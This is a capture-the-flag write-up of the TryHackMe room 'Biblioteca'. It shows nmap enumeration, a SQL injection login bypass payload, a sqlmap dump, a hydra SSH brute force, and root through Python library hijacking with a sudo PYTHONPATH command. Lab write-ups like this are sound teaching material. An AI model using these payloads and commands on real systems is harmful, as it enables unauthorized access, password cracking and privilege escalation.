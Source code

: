 ```yaml
---
title: "TryHackMe - Biblioteca"
author: Nasrallah
description: ""
date: 2022-12-25 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, python, hijacking, sqli, sqlmap, hydra]
img_path: /assets/img/tryhackme/biblioteca
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Biblioteca](https://tryhackme.com/room/biblioteca) from [TryHackMe](https://tryhackme.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.211.29
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 00:0b:f9:bf:1d:49:a6:c3:fa:9c:5e:08:d1:6d:82:02 (RSA)
|   256 a1:0c:8e:5d:f0:7f:a5:32:b2:eb:2f:7a:bf:ed:bf:3d (ECDSA)
|_  256 9e:ef:c9:0a:fc:e9:9e:ed:e3:2d:b1:30:b6:5f:d4:0b (ED25519)
8000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title:  Login 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are two open ports, port 22 running OpenSSH 8.2p1 and port 8000 running Werkzeug httpd 2.0.2.

### Web

Let's navigate to the web page.

![](1.png)

It's a login page, let's try logging in using sql injection.

![](2.png)

We managed to login as **Smokey** using this payload `' or 1=1 -- -`

## **Foothold**

### Sqlmap

Let's run `sqlmap` on the login page and tell it to dump everything.

```bash
sqlmap -u 'http://10.10.218.61:8000/login' --form --batch --dump
```

![](3.png)

Great! We managed to read the database and found a clear text password of `smokey`.

Let's try ssh into the machine with that password.

![](4.png)

## **Privilege Escalation**

If we check the `/home` directory we find a folder named `hazel` which belongs the user `hazel`.

### Hydra

The hint for the user flag says `Weak password`, so let's brute force `hazel`'s ssh password using hydra.

```bash
hydra -l 'hazel' -P /usr/share/wordlists/rockyou.txt 10.10.218.61 ssh -t 30
```

![](5.png)

We found the password, let's swith to `hazel`.

![](6.png)

After running the command `sudo -l`, we see that `hazel` can run **/usr/bin/python3 /home/hazel/hasher.py** with `SETENV` which allow us to set the environment variables for the program we're running.

```python
import hashlib

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())

    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())

    sha1 = hashlib.sha1(passw.encode())

    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())


def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()
```

This python script imports `hashlib` library.

Since we can't modify `hasher.py` or create files in `hazel`'s home directory, we will hijack the `hashlib` library and use the `SETENV` to get it executed. For more information about library hijacking, check this [article](https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/).

First we're going to create a file in /tmp directory and calle it `hashlib.py`containing the following script.

```python
import os; os.system("/bin/bash")
```

Now we run the sudo command with the environment variable `PYTHONPATH` set to `/tmp` to get root.

```bash
sudo PYTHONPATH=/tmp /usr/bin/python3 /home/hazel/hasher.py
```

![](7.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

